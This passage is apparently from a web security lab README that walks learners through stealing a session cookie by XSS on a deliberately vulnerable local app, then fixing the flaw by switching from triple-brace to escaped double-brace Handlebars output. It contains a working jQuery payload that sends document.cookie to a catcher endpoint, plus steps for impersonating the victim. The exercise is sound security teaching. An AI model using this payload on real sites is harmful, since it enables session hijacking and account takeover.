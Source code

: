 1. Start this app on your localhost and visit [http://localhost:3000/cookieCatcher](http://localhost:3000/cookieCatcher), you should see a message in your terminal that looks like this:

    ```
    !!!Cookie catcher!!!
    {}
    !!!Cookie catcher!!!
    ```

1. We're going to use this endpoint to transmit the stolen cookie back to
  us. We can then use the cookie to impersonate the user.
1. Create either a specially crafted message or a URL that creates an `img`
  tag and appends it to the body. We're going to store `document.cookie`
  inside the `src` attribute of this image. The  `src` attribute automatically fires a GET request when the image is loaded

    ```javascript
    //create a new img tag
    var img = $('<img>');
    
    // Read and submit this cookie via the img tag
    img.attr('src', "http://localhost:3000/cookieCatcher?cookie=") // YOU NEED TO EDIT THIS LINE to pass the cookies to your server.
    
    // append the HTML element into the DOM and therefore fire a GET request to the URL above.
    $('body').append(img); 
    ```

1. Note the value of the cookie in the command line. Use either
  the DevTools console or a Chrome Plugin to create the same cookie
  on Steal This App in an incognito window thereby impersonating the
  original owner of the cookie.

## Part 2: Fix XSS vulnerabilities

Let's go back to the `steal-this-app` repo from the first exercise. The vulnerabilities allowing these XSS attacks are in
`steal-this-app/views/messenger.hbs`.

Replace the triple-brace Handlebars references with secure double-brace
Handlebars references.

After fixing this, attempt the XSS attacks you did earlier to verify they
no longer work! Make sure to use your local version of steal-this-app on localhost:3000.

Remember, this is secure:

```
{{secure}}
```

This is insecure:

```
{{{insecure}}}
```
